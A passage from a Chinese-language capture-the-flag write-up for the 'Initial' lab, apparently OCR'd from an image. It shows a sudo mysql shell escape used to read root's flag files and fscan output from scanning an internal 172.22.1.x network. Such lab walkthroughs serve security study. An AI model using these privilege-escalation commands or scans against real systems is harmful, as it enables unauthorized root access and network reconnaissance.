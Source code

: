 ```
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```

这里有sudo，看看能不能利用

sudo -l就是列出目前用户可执行与无法执行的指令

![image-20230726151532720](img/春秋云镜-Initial/image-20230726151532720.png)

用mysql的提权

```
sudo mysql -e '\! ls /root'
sudo mysql -e '\! ls /root/flag'
sudo mysql -e '\! cat /root/flag/fl*'
```

![image-20230726152011666](img/春秋云镜-Initial/image-20230726152011666.png)

```
flag01: flag{60b53231-
```

## 信息收集

这里上传fsacn然后扫内网

```
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.15     is alive
(icmp) Target 172.22.1.21     is alive
(icmp) Target 172.22.1.18     is alive
[*] Icmp alive hosts len is: 4
172.22.1.15:22 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.18:139 open
172.22.1.21:139 open
172.22.1.2:139 open
172.22.1.18:135 open
172.22.1.21:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.18:3306 open
```